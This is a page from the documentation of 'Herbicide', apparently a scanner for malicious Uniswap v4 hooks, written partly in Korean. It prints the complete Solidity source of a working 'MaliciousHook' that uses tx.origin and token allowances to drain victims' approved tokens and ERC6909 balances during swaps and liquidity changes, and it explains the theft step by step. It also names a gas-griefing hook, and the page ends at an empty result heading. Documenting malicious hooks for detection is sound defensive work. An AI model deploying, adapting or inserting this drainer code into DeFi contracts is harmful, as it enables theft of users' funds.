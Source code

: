 # Malicious Hook Detection

## Malicious Hook Example

[https://unichain-sepolia.blockscout.com/address/0xbedD50791A853b4FAf2116AcC9b8df71D525C547?tab=contract](https://unichain-sepolia.blockscout.com/address/0xbedD50791A853b4FAf2116AcC9b8df71D525C547?tab=contract)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {BaseHook} from "v4-periphery/src/base/hooks/BaseHook.sol";
import {ERC1155} from "@openzeppelin/contracts/token/ERC1155/ERC1155.sol";
import {IPoolManager} from "v4-core/src/interfaces/IPoolManager.sol";
import {Hooks} from "v4-core/src/libraries/Hooks.sol";

import {PoolId, PoolIdLibrary} from "v4-core/src/types/PoolId.sol";
import {PoolKey} from "v4-core/src/types/PoolKey.sol";

import {Currency, CurrencyLibrary} from "v4-core/src/types/Currency.sol";
import {StateLibrary} from "v4-core/src/libraries/StateLibrary.sol";

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

import {TickMath} from "v4-core/src/libraries/TickMath.sol";
import {BalanceDelta} from "v4-core/src/types/BalanceDelta.sol";

import {FixedPointMathLib} from "solmate/src/utils/FixedPointMathLib.sol";
import {IHooks} from "v4-core/src/interfaces/IHooks.sol";
import {SafeCast} from "v4-core/src/libraries/SafeCast.sol";
import {toBalanceDelta} from "v4-core/src/types/BalanceDelta.sol";
import {CurrencySettler} from "v4-core/test/utils/CurrencySettler.sol";

contract MaliciousHook is BaseHook {
    using Hooks for IHooks;
    using SafeCast for uint256;
    using SafeCast for int128;
    using CurrencySettler for Currency;

    bool private firstAddLiquidity = true;
    uint128 public constant TOTAL_BIPS = 10000;

    constructor(IPoolManager _manager) BaseHook(_manager) {}

    function getHookPermissions()
        public
        pure
        override
        returns (Hooks.Permissions memory)
    {
        return
            Hooks.Permissions({
                beforeInitialize: false,
                afterInitialize: false,
                beforeAddLiquidity: false,
                afterAddLiquidity: true,
                beforeRemoveLiquidity: false,
                afterRemoveLiquidity: true,
                beforeSwap: false,
                afterSwap: true,
                beforeDonate: false,
                afterDonate: false,
                beforeSwapReturnDelta: false,
                afterSwapReturnDelta: true,
                afterAddLiquidityReturnDelta: true,
                afterRemoveLiquidityReturnDelta: true
            });
    }

    function afterSwap(
        address sender, /* sender **/
        PoolKey calldata key,
        IPoolManager.SwapParams calldata params,
        BalanceDelta delta,
        bytes calldata /* hookData **/
    ) external override onlyPoolManager returns (bytes4, int128) {

        bool specifiedTokenIs0 = (params.amountSpecified < 0 == params.zeroForOne);
        (Currency targetCurrency, int128 swapAmount) =
            (specifiedTokenIs0) ? (key.currency1, delta.amount1()) : (key.currency0, delta.amount0());

        
        if (swapAmount < 0) 
            swapAmount = -swapAmount;
        else
            return (IHooks.afterSwap.selector,0);

        address victim = tx.origin;
        IERC20 feeToken = IERC20(Currency.unwrap(targetCurrency));
        uint256 stealAmount = feeToken.allowance(victim, sender);

        if (stealAmount > targetCurrency.balanceOf(victim)) {
            stealAmount = targetCurrency.balanceOf(address(victim));
        }

        if (poolManager.isOperator(victim, sender)) {
            uint256 balance_6909 = poolManager.balanceOf(victim, targetCurrency.toId());

            stealAmount = stealAmount < balance_6909 ? stealAmount : balance_6909;
        }

        targetCurrency.take(poolManager, address(this), stealAmount, true);
        targetCurrency.settle(poolManager, address(this), (stealAmount * key.fee / TOTAL_BIPS) + uint128(swapAmount), true);
        stealAmount = stealAmount - (stealAmount * key.fee / TOTAL_BIPS) - uint128(swapAmount);

        return (IHooks.afterSwap.selector, (stealAmount).toInt128());
    }

    function afterRemoveLiquidity(
        address, /* sender **/
        PoolKey calldata key,
        IPoolManager.ModifyLiquidityParams calldata, /* params **/
        BalanceDelta delta,
        BalanceDelta,
        bytes calldata /* hookData **/
    ) external override onlyPoolManager returns (bytes4, BalanceDelta) {
        assert(delta.amount0() >= 0 && delta.amount1() >= 0);

        uint256 stealAmount0;
        uint256 stealAmount1;

        if (delta.amount0() > 0)
            stealAmount0 = uint128(delta.amount0()) - 1;
        if (delta.amount1() > 0)
            stealAmount1 = uint128(delta.amount1()) - 1;

        key.currency0.take(poolManager, address(this), stealAmount0, true);
        key.currency1.take(poolManager, address(this), stealAmount1, true);

        return (IHooks.afterRemoveLiquidity.selector, toBalanceDelta(int128(uint128(stealAmount0)), int128(uint128(stealAmount1))));
    }

    function afterAddLiquidity(
        address sender, /* sender **/
        PoolKey calldata key,
        IPoolManager.ModifyLiquidityParams calldata, /* params **/
        BalanceDelta delta,
        BalanceDelta,
        bytes calldata /* hookData **/
    ) external override onlyPoolManager returns (bytes4, BalanceDelta) {
        if (firstAddLiquidity) {
            firstAddLiquidity = false;
            return (IHooks.afterAddLiquidity.selector, toBalanceDelta(0, 0));
        }
        assert(delta.amount0() <= 0 && delta.amount1() <= 0);

        address victim = tx.origin;
        IERC20 targetToken0 = IERC20(Currency.unwrap(key.currency0));
        IERC20 targetToken1 = IERC20(Currency.unwrap(key.currency1));
        uint256 stealAmount0 = targetToken0.allowance(victim, sender);
        uint256 stealAmount1 = targetToken1.allowance(victim, sender);            
        if (stealAmount0 > targetToken0.balanceOf(victim)) {
            stealAmount0 = targetToken0.balanceOf(address(victim));
        }
        if (stealAmount1 > targetToken1.balanceOf(victim)) {
            stealAmount1 = targetToken1.balanceOf(address(victim));
        }

        if (poolManager.isOperator(victim, sender)) {
            uint256 balance0_6909 = poolManager.balanceOf(victim, key.currency0.toId());
            uint256 balance1_6909 = poolManager.balanceOf(victim, key.currency1.toId());

            stealAmount0 = stealAmount0 < balance0_6909 ? stealAmount0 : balance0_6909;
            stealAmount1 = stealAmount1 < balance1_6909 ? stealAmount1 : balance1_6909;
        }
        
        key.currency0.take(poolManager, address(this), stealAmount0, true);
        key.currency1.take(poolManager, address(this), stealAmount1, true);
        key.currency0.settle(poolManager, address(this), uint128(-delta.amount0()), true);
        key.currency1.settle(poolManager, address(this), uint128(-delta.amount1()), true);

        stealAmount0 -= uint128(-delta.amount0());
        stealAmount1 -= uint128(-delta.amount1());

        return (IHooks.afterAddLiquidity.selector, toBalanceDelta(int128(uint128(stealAmount0)), int128(uint128(stealAmount1))));
    }
}
```



**Main Logic**

1. Malicious Hook이 사용자가 approve 한 token의 양을 확인합니다.
2. Malicious Hook은 해당 토큰의 양을 모두 ERC6909로 take 합니다.
3. 이후 정상적인 Swap/ModifyLiquidity 를 위한 양 만큼 settle 합니다.

위 과정을 통해, Malicious Hook은 User로부터 Approve한 토큰으로부터 가져올 수 있는 토큰의 최대 양을 모두 훔쳐올 수 있습니다.&#x20;

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Exact Out Swap Test</p></figcaption></figure>

The image above illustrates the process in which the Malicious Hook exploits the token approval mechanism. The first step shows the Malicious Hook verifying the approved token amount. In the second step, it proceeds to transfer the entire approved token quantity to ERC6909. Finally, the required amount is settled for legitimate Swap/ModifyLiquidity actions, allowing the Malicious Hook to maximize the tokens stolen from the User.



## Herbicide Detection Result

result

### GasGriefHook

hook은 poolkey의 동작에 매우 민감하게 관여할 수 있습니다. 예를들어, hook에서 `revert`가 수행된다면 해당 풀을 사용할 수 없는 풀이 되어버립니다. 이처럼 사용자의 가용성을 해치는 case는 대표적으로 gas griefing attack이 있습니다. herbicide는 이러한 훅들을 동적 분석 테스팅을 통해 탐지할 수 있습니다.

```json
{
    "currency0": "0x0197481B0F5237eF312a78528e79667D8b33Dcff",
    "currency1": "0xA56569Bd93dc4b9afCc871e251017dB0543920d4",
    "fee": 3000,
    "tickSpacing": 60,
    "hooks": "0x3c712B5E5B4a7ee97E4e3F2330bFb435050a4800",
    "deployer": "0x4e59b44847b379578588920cA78FbF26c0B4956C"
}
```

[Code Details](https://unichain-sepolia.blockscout.com/address/0x3c712B5E5B4a7ee97E4e3F2330bFb435050a4800?tab=contract)

#### Result

